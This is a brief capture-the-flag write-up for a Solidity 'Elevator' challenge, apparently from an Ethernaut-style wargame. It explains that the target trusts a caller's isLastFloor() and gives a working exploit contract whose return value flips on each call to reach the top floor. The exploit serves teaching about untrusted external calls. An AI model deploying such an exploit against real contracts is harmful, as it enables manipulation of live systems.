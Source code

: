 # Answer

Goal: Set `top` value to be true.

## 1. Changing top value

The contract expects the msg.sender to be an honest Building implementation, but by manipulating `isLastFloor()` function we can force Elevator think we are at the top floor.

```solidity
interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract ElevatorExploit is Building {
    Elevator e;
    bool flipBool = true;

    constructor(address targetAddr) {
        e = Elevator(targetAddr);
    }

    // Provided floor value doesn't matter
    function isLastFloor(uint256) external override returns (bool) {
        flipBool = !flipBool;
        return flipBool;
    }

    function exploit() external {
        e.goTo(0);
    }
}

```
